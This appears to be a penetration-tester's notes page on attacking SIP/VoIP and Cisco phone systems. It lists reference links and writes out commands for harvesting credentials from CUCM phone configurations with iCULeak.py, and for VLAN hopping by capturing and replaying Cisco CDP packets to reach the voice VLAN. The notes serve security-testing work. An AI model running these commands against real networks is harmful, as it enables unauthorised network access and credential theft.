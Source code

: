 ```yaml
---
description: Session Initiation Protocol / Voice over IP
---
```


# SIP / VoIP

- [https://medium.com/vartai-security/practical-voip-penetration-testing-a1791602e1b4](https://medium.com/vartai-security/practical-voip-penetration-testing-a1791602e1b4)




## IP Phones

- [https://www.trustedsec.com/blog/seeyoucm-thief-exploiting-common-misconfigurations-in-cisco-phone-systems/](https://www.trustedsec.com/blog/seeyoucm-thief-exploiting-common-misconfigurations-in-cisco-phone-systems/)
- [https://www.n00py.io/2022/01/unauthenticated-dumping-of-usernames-via-cisco-unified-call-manager-cucm/](https://www.n00py.io/2022/01/unauthenticated-dumping-of-usernames-via-cisco-unified-call-manager-cucm/)
- [https://github.com/trustedsec/SeeYouCM-Thief](https://github.com/trustedsec/SeeYouCM-Thief)
- [https://github.com/llt4l/iCULeak.py/blob/master/iCULeak.py](https://github.com/llt4l/iCULeak.py/blob/master/iCULeak.py)

Enumerate phones for credentials leak:

```
$ python3 iCULeak.py -nA -c CUCM01.megacorp.local -l phones.txt 192.168.1.11
```



### VLAN Hopping on Cisco Voice

- [https://savvyadmin.com/vlan-hopping-on-cisco-voice-enabled-switch-ports/](https://savvyadmin.com/vlan-hopping-on-cisco-voice-enabled-switch-ports/)

Capture the first CDP advertisement while plugged through the phone:

```
$ sudo tcpdump -s 0 -w cdp-packet.cap -c 1 -ni eth0 ether host 01:00:0c:cc:cc:cc
$ sudo tcpdump -vr cdp-packet.cap
```

Relay it once a minute to simulate a legit phone device:

```
$ sudo watch -n 60 "tcpreplay -i eth0 cdp-packet.cap"
```

Configure a sub-interface to access the voice VLAN:

```
$ sudo vconfig add eth0 1337
$ sudo ifconfig eth0.1337 up
$ sudo dhclient -v eth0.1337
```
